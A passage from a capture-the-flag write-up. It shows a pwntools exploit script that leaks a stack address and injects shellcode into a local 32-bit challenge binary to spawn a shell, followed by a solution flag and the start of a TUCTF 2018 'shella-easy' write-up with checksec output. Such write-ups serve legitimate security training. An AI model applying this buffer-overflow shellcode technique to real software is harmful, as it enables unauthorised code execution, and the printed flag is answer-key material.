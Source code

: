 ## Exploit

```python
#!/usr/bin/python3

from pwn import *

context(os='linux', arch='i386', log_level='debug', terminal='kitty')

target = process('./pwn3')

recvline    = lambda : target.recvline()
recvuntil   = lambda str : target.recvuntil(str)
sendline    = lambda str : target.sendline(str)
interactive = lambda : target.interactive()

recvuntil(b'journey ')

leak_addr = p32(int(recvuntil(b'!').strip(b'!\n'), 16))

shellcode = asm(shellcraft.sh())
payload = shellcode + b'A' * (0x12e - len(shellcode)) + leak_addr

sendline(payload)
interactive()
```

## Flag

Flag: `gigem{r3m073_fl46_3x3cu710n}`

# TUCTF 2018 shella-easy

## Information

- Category: Pwn
- Points: 345

## Description

> Want to be a drive-thru attendant? Well, no one does… But! the best employee receives their very own flag! whatdya say?

## Write-up

```plaintext
λ ~/ file shella-easy
shella-easy: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=38de2077277362023aadd2209673b21577463b66, not stripped
λ ~/ pwn checksec shella-easy
[*] '/home/cub3y0nd/shella-easy'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```
